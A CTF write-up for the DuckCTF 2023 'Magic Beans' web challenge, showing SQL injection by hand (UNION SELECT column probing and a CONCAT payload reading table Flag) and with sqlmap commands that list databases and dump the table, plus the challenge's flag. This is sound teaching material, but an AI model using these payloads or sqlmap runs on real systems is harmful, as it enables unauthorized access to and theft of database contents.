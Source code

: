 +++
author = "Javad Hamidi"
date = "2023-08-11"
description = "Hidden beneath this strange jelly bean themed website is a flag; a flag hidden within a table aptly named Flag, and sprinkled letter-by-letter along single character columns titled 'a', 'b', 'c', 'd', ..."
tags = ["Web"]
title = "Magic Beans - DuckCTF 2023"

+++

We're presented with a largely static, single-page site - save for one input field that doesn't seem to be processed on the client side. The challenge description also draws special attention to 'columns' and 'tables'. Given that there aren't any HTML tables in the source, instinct says this might involve a database.

If we try a classic single-quote injection (`'`) we see the quote suspiciously disappear. Adding on both a semi-colon to terminate the SQL statement and a comment afterwards (`'; -- `)  we see that vanish as well! Clearly, the backend is handling this input differently from regular text.

We know from the challenge description that we need to read from a table called Flag (in the database). A good way is to tack this on to the input we're already getting (all the delicious beans) using a UNION attack. This is where some googling and trial-and-error comes in to craft just the right payload. Here's what we came up with:

```sql
' UNION ALL SELECT a, b, c, d, e FROM Flag; -- 
```

Be aware that there is some **input validation on the client side**! Submitting certain characters or too many characters may not work. Instead, try making the POST request using a tool like [Insomnia](https://insomnia.rest/) or [Postman](https://www.postman.com/).

Some notable observations about this payload:

- Make sure to have a space after the comment (` -- `), injection is finicky.
- We use `UNION ALL SELECT` instead of `UNION SELECT`, just to make sure that no duplicate rows are removed (although that's unlikely in this situation).
- We know which columns and tables to we want thanks to info from the challenge description.
- We only select five columns (`a, b, c, d, e`), since a `UNION SELECT` will only work if the number of columns appended matches the number we're already getting. Any more or any less will give us 'No results found.' indicating our payload failed. 

A good way to figure out the number of columns we need to `UNION SELECT` is to test each of the following statements, one at a time, until one works. One of these statements should succeed, even if we don't know the names of the columns/table. 

```
' UNION ALL SELECT NULL -- 
' UNION ALL SELECT NULL,NULL -- 
' UNION ALL SELECT NULL,NULL,NULL -- 
' UNION ALL SELECT NULL,NULL,NULL,NULL -- 
' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL -- 
...
```

Our functioning payload from before should give us a new bean entry at the very bottom, with the letters 'u', 'a', 'c', visible (part of the flag format `quack{}`). Nice! Rotating through the alphabet of course could give us the flag, but that seems rather tedious. Instead, we can concatenate all the columns in the table Flag in a payload like this:

```sql
~' UNION ALL SELECT NULL, CONCAT(a,b,c,d,e,f,g,h,i,j,k,l,m,n,o,p,q,r,s,t,u,v,w), NULL, NULL, NULL FROM Flag; -- 
```

Some trial-and-error tells us that columns a-w are valid. Substituting the concatenated columns into the second union-selected column instead of the first will show the flag where the bean name would usually be (in nice big letters). Adding a tilde at the beginning (`~`) is just to clear out all other search results (since none of the bean names includes a `~`).

**Flag**:  `quack{J3lly_83lly_ru5H}`

## Using sqlmap

While we can totally craft our own payloads, using an automated tool can be far easier. [Sqlmap](https://sqlmap.org/) is awesome, and allows us to solve this challenge without knowing any of the hints given in the challenge description.

Let's take this from the top. First, let's check if injection is possible. The following command specifies the URL, the form data (which is one search parameter), and states that we are making a POST request.

```
sqlmap -u "http://chall.duckctf.com:8080/index.php" --data "search=*" -p "search" --method POST
```

The output tells us injection is possible! We can now add on `--dbs` to get the names of all databases.

```bash
sqlmap -u "http://chall.duckctf.com:8080/index.php" --data "search=*" -p "search" --method POST --dbs
```
```
...

available databases [2]:
[*] beantome
[*] information_schema
```

Other than the usual 'information_schema', 'beantome' is the only database of interest. Let's see what tables are inside ...

```bash
sqlmap -u "http://chall.duckctf.com:8080/index.php" --data "search=*" -p "search" --method POST --tables -D beantome
```
```
...

Database: beantome
[2 tables]
+-------+
| Beans |
| Flag  |
+-------+
```

Hmm, two interesting tables. I'm guessing that all our delicious bean flavours are inside 'Beans' so let's turn our attention and dump the contents of 'Flag'.

```bash
sqlmap -u "http://chall.duckctf.com:8080/index.php" --data "search=*" -p "search" --method POST --dump -T Flag -D beantome
```
```
...

Database: beantome
Table: Flag
[1 entry]
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
| a | b | c | d | e | f | g | h | i | j | k | l | m | n | o | p | q | r | s | t | u | v | w |
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
| q | u | a | c | k | { | J | 3 | l | l | y | _ | 8 | 3 | l | l | y | _ | r | u | 5 | H | } |
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
```

**Flag**:  `quack{J3lly_83lly_ru5H}`